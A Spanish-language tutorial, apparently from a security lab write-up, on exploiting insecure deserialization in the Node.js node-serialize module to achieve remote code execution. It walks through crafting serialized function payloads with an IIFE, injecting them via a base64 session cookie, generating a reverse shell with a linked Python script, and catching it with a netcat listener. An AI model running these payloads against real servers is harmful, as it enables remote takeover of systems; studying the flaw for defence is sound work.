

Para instalar estos módulos:

```bash
npm install express node-serialize cookie-parser
```

Una ves instalados estos módulos, se vuelve a ejecutar el comando “node server.js”, esto lo que hará es correr un servidor en el puerto 3000.

Al hacer una búsqueda de este servidor y se recarga la página, se muestra lo siguiente:



La petición se ve de la siguiente forma:



Esto contiene una cookie de sesión la cual se procede a decodificar



Ahora, si en lugar de “ajin”, se ingresa, por ejemplo, “bryan” y se hace el proceso inverso de codificación, es decir, se pasa la cadena en texto plano a base64 y luego se le aplica un urlencode. El resultado es el siguiente:



Con esto se confirma que al pasar una información serializada, el servidor lo interpreta y lo muestra en el resultado.

### Función para serialización con Nodejs

Esta función lo que hará es serializar el contenido de lo que se encuentra en la función “function” la cual ejecuta el comando “ls /”.

```bash
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Cuando se ejecute el código, serializará el contenido de la función y lo mostrará en pantalla, esto servirá para luego enviarlo al servidor y que este lo interprete.



Un concepto interesante es el IIFE, el cual permitirá ejecutar la función inmediatamente, por lo que en lugar de mostrar el resultado serializado, ejecutará la función, para escribir IIFE en el código, se le agregan paréntesis “()”. Por ejemplo, se ejecutará el comando “id”:





Pero lo que se quiere es serializar los datos para luego enviarlos al servidor y que este los interprete y ejecute

### Función para deserialización con Nodejs

Ahora con un función se probará lo que haría un servidor al deserializar los datos. La función que se usará es la siguiente:

```bash
var serialize = require('node-serialize');
var payload = '';
serialize.unserialize(payload);
```

En el campo payload se ingresan los datos serializados para que luego la deserialice.

Para este ejemplo, se copiarán los datos serializados en el ejemplo anterior:

```bash
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('id', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```

Esto hay que adaptarlo, es decir, se deben quitar los saltos de línea y escapar las comillas simples ya que ya se están usando comillas simples para encerrar la expresión:



Esto al ser ejecutado no pasará nada pero si se le agrega el IIFE, hará que la función se ejecute antes del proceso de deserialización:



## Reverse Shell Serializada con Python

Utilizando estos conceptos, se podría utilizar un script en python el cual servirá para generar una reverse shell serializada:

Proyecto de github: [https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

Uso:

```bash
# Se le debe especificar la IP del atacante y el puerto 
# que se utilizará
python2.7 nodejsshell <IPatacante> <PuertoAtacante>
```



Ahora se puede utilizar estos datos serializados generados para crear un archivo llamado, por ejemplo, “rshell” e insertarlo en el siguiente código serializado:

```bash
{"rce":"_$$ND_FUNC$$_function(){AquívaElComando}()"}
```

Ahora el contenido del archivo se pasa a base64:

```bash
cat rshell | base64 -w 0; echo
```

Y por último, el resultado se envía como Cookie al servidor:

```bash
# Primero se pone la máquina del atacante en modo escucha 
# por el puerto especificado al generar los datos 
# serializados con el script
nc -nlvp 4646
```




